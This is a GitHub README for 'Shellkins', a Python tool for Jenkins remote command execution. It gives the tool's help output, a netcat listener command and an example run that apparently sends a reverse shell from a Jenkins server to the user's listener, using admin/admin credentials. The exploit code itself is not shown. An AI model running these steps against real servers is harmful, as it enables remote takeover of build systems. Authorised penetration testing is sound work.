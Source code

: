 # Shellkins 
<p align="center">
<a href="#license"><img src="resources/images/logo.png"></a>
</p>

[![HSNHK - Shellkins](https://img.shields.io/static/v1?label=HSNHK&message=Shellkins&color=blue&logo=github)](https://github.com/HSNHK/Shellkins)
[![stars - Shellkins](https://img.shields.io/github/stars/HSNHK/Shellkins?style=social)](https://github.com/HSNHK/Shellkins)
[![forks - Shellkins](https://img.shields.io/github/forks/HSNHK/Shellkins?style=social)](https://github.com/HSNHK/Shellkins) [![GitHub release](https://img.shields.io/github/release/HSNHK/Shellkins?include_prereleases=&sort=semver)](https://github.com/HSNHK/Shellkins/releases/)
[![License](https://img.shields.io/badge/License-MIT-blue)](#license)
[![issues - Shellkins](https://img.shields.io/github/issues/HSNHK/Shellkins)](https://github.com/HSNHK/Shellkins/issues)

[Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) Remote Command Execution
> Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

## Usage
```
$ python3 shellkins.py --help
```
```
usage: shellkins.py [-h] [--host HOST] [-u USER] [-p PASS] [--lhost LHOST] [--lport LPORT]

Jenkins Remote Command Execution
github : https://github.com/HSNHK/Shellkins
by Hassan Mohammadi

optional arguments:
  -h, --help            show this help message and exit
  --host HOST           jenkins host address
  -u USER, --user USER  jenkins account username
  -p PASS, --pass PASS  jenkins account password
  --lhost LHOST         local listener address
  --lport LPORT         local listener port
```

## Example

Clone this repository
```
$ git clone https://github.com/HSNHK/Shellkins.git
```
Run a listener (on your machine)
```
$ nc -nlvp 1234
```
Run the script
```
$ python3 shellkins.py --host http://example.com:8080/ --user admin --pass admin --lhost 127.0.0.1 --lport 1234
```

## License

Released under [MIT](/LICENSE) by [@HSNHK](https://github.com/HSNHK).
